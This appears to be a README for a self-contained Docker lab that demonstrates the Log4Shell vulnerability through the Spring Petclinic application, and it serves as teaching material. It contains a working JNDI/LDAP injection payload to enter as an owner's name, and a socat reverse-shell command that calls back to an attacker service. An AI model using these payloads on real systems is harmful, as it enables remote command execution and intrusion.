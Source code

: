 ## Setup
To start, build :

```mvn clean install```

Run the services up using docker
```docker-compose up```

Once up, login to the log4shell service and open socat
```docker exec -it  spring-petclinic-log4shell-service-1 /bin/bash```
and run
```./ListenForShell.sh```

Then open a browser and access Petclinic
http://localhost:8080
Add a new Owner and add the following to the first or last name
```${jndi:ldap://log4shell-service:1389/jdk8}```
Once the owner is saved, you will be able to execute commands from the log4shell terminal.
The commands are run on the EmailService OS.


## What Is Happening

When you send the payload to the Petclinic application via the Owner firstname/lastname the following occurs.
* Petclinic sends the Owner details to the Email Service
* The Email Service logs that information using a vulnerable version of log4j
* Log4j initiates a JNDI/LDAP connection to the Log4Shell service and downloads a class
* That class is executed within the Email Service, which in turn executes the following commmand on the underlying OS of the Email Service
  * "socat TCP4:log4shell-service:8082 EXEC:/bin/bash"
* This, uses Socat create a reverse shell which calls back to the Log4Shell Service, allowing the terminal in Log4Shell to execute arbitrary commands on the Email Service and see the results.






